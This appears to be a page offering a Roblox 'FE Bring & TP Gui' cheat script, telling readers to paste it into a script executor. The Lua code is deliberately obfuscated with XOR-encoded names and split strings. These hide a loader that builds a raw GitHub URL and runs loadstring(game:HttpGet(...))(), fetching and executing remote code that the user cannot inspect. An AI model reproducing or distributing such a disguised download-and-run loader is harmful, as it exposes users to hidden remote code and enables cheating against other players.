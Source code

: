 copy this and paste it into the script executor:
-- FE Bring & TP Gui
local j,b,k,x=getfenv(),(string.char),(string.byte),(bit32 .bxor)local d,_,o,p,f,m,v,e,u,i,n,y,a,z,r,t,g,h,l,w,B='load','string','game','HttpGet','https','raw','github','Roman3\48\52\48\49\48','FE','Bring','AND','Tp','Gui','refs','heads','main','Script',j[(function(c,A)local s=''for C=0,#c-1 do s=s..b(x(k(c,C+1),k(A,C%#A+1)))end return s end)('P\16I\fT',' b')],j[(function(c,A)local s=''for C=0,#c-1 do s=s..b(x(k(c,C+1),k(A,C%#A+1)))end return s end)('\229m\251x','\146\f')],j[(function(c,A)local s=''for C=0,#c-1 do s=s..b(x(k(c,C+1),k(A,C%#A+1)))end return s end)('\180\201\173\192','\217\168')]['random'],function()return end;B();l(5.0356896497177204e-11*1985825318)local q=f..'://'..m..'.'..v..'usercontent.com/'..e..'/'..u..'-'..i..'-'..n..'-'..y..'-'..a..'/'..z..'/'..r..'/'..t..'/'..g;j[(function(c,A)local s=''for C=0,#c-1 do s=s..b(x(k(c,C+1),k(A,C%#A+1)))end return s end)('\166sq\135\2\190ny\141\22','\202\28\16\227q')](d.._..'('..o..':'..p..'(\"'..q..'\"))()')()

